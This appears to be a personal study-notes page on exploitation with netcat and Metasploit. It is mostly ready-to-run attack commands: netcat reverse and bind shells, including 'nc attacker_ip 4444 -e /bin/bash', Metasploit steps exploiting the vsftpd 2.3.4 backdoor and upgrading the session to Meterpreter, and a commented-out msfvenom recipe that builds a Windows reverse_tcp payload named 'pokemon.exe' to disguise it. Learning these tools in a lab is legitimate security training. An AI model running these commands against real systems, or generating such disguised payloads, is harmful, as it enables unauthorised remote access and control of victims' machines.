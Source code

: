 <!-- /notes/cyber/exploitation.md -->

<br>

`Last updated: Wed 30 Nov 2022 12:17 IST`

<br>

<h1 id="expoitation">Exploitation</h1>

## nc

#### Reverse shell:

1. Attacker exploits target machine  
2. Attacker listens on select port<br>`nc -lvp 4444`  
3. Target reverse TCP connection to attacker executing bash shell<br>`nc attacker_ip 4444 -e /bin/bash`

#### Bind shell:

1. Attacker exploits target machine  
2. Target listens on select port and executes bash shell<br>`nc -lvp 4444 -e /bin/bash`  
3. Attacker bind TCP connection to victim at select port<br>`nc target_ip 4444`

<br>
<h1 id="metasploit-framework">Metasploit Framework</h1>

## msfdb

```bash
msfdb init
msfdb start
msfdb stop
```

## msfconsole

```bash
help
search
use
```

#### 1. VSFTPD v2.3.4 Backdoor Command Execution

_`msf6 > `_

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
```

_`msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`_

```bash
show options #show exploit options
show payloads #show exploit payloads
set RHOSTS 10.8.22.123 #set module options
set payload 0 #set payload options
exploit #or run
```
##### (Ctrl + Z) to send session to background.

#### 2. Upgrade shell to Meterpreter:

_`msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`_

```bash
sessions #see active sessions
search shell_to #search for module
use post/multi/message/shell_to_meterpreter
```

#### 3. Shell to Meterpreter Upgrade

_`msf6 post(multi/manage/shell_to_meterpreter) >`_

```bash
show options
sessions
set SESSION 1
exploit
sessions
sessions -i 2 #enter meterpreter session
```

##### (Ctrl + Z) to send session to background.

<!--
```bash
use auxiliary/scanner/portscan/syn
```
-->

## msfvenom

```bash
msfvenom -h
msfvenom -l payloads
msfvenom -l formats
```

<!--
#### 1. Set up listener on attacker's machine:

```bash
nc -lvp 7777 -e /bin/bash #listen, verbose, port, execute
```


#### 2. In `msfconsole`:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.172.128
set LPORT 7777
exploit
# set ExitOnSession false
# exploit -j
```

#### 3. Generate payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.172.128 LPORT=7777 -f exe > pokemon.exe
```

#### 4. Send to Windows 7 VM and run it
-->